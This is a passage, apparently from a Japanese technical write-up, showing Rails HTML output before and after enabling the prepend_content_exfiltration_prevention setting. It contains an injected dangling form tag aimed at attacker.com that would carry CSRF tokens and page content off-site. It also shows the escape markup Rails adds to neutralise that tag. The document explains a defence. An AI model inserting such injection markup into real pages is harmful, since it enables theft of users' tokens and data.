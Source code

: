 ```
    <form action="https://attacker.com">

<form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="A3dHZykFjephCUm9HV5Gqg1FPa7uJQAkGK2eAJD1MC6l0iMYD4o3HzpERNpQueIHjLUWpL_XcabGXXB6WWjF8A" autocomplete="off" /></form>

<h1>secret</h1>

  </body>
</html>
```

### config.action_view.prepend_content_exfiltration_prevention = true

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="YLl-hoKZtadYKgEsa13bCPxof9v2Acqyv3fsweC59r0XQpHjCrA0sqtukCADq_wC8_eaO0yD9uH3VoJgHOIvFg" />
    
    
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

  <body>
    <form action="https://attacker.com">

<!-- '"` --><!-- </textarea></xmp> --></option></form><form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="EEJ01BEcTjzlUuhJnFyqLkrsOW_EEYE32XwxeIhzCi-25xCrN5P0yb4f5S7Ruw6DyxwSZZXj8LUHjN8CQe7_8Q" autocomplete="off" /></form>

<h1>secret</h1>

  </body>
</html>
```

### 結果
注入されたタグからの脱出に成功した。

